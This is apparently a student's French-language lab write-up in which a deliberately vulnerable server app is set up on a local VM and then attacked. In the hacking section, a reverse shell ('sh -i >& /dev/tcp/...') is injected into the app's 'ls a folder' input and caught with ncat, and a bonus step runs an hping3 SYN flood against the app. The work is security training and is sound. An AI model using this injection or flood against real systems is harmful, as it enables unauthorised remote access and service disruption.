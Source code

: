 # I. Partie 1 : Host & Hack
## Sommaire

- [I. Partie 1 : Host \& Hack](#i-partie-1--host--hack)
  - [Sommaire](#sommaire)
  - [1. A vos marques](#1-a-vos-marques)
  - [2. Prêts](#2-prêts)
  - [3. Hackez](#3-hackez)

## 1. A vos marques

🌞 **Télécharger l'application depuis votre VM**

> je l'ai d'abord téléchargé sur mon ordi et fait un :
```bash
scp C:\Users\cleme\Downloads\efrei_server dums@192.168.56.101:/home/dums
```

🌞 **Lancer l'application `efrei_server`**

```bash
export LISTEN_ADDRESS=192.168.56.101
./efrei_server
```

🌞 **Prouvez que l'application écoute sur l'IP que vous avez spécifiée**
```bash
tcp        LISTEN      0           100                                          192.168.56.101:8888                       0.0.0.0:*         users:(("main.bin",pid=1726,fd=6))
```

## 2. Prêts

🌞 **Se connecter à l'application depuis votre PC**

```bash
ncat 192.168.56.101 8888
```

## 3. Hackez

🌞 **Euh bah... hackez l'application !**

**Sur la VM :**
```bash
./efrei_server
Warning: You should consider setting the environment variable LOG_DIR. Defaults to /tmp.
Server started. Listening on ('192.168.56.101', 8888)...
LS command called by ('192.168.56.1', 63578)
```
**Sur le terminal qui demande le reverse shell :**
```bash
PS C:\Windows\System32> ncat 192.168.56.101 8888
Hello ! Tu veux des infos sur quoi ?
1) cpu
2) ram
3) disk
4) ls un dossier

Ton choix (1, 2, 3 ou 4) : 4
Ex├®cuter la commande ls vers le dossier : /home/dums ; sh -i >& /dev/tcp/192.168.56.1/33127 0>&1
```

**Sur le terminal d'écoute :**
```bash
PS C:\Windows\System32> ncat -l 33127
sh-5.1$
```

🌟 **BONUS : DOS l'application**

```bash
hping3 --flood -S 192.168.56.101 -p 8888
```

> ➜ [**Lien vers la partie 2**](/part2/readme.md)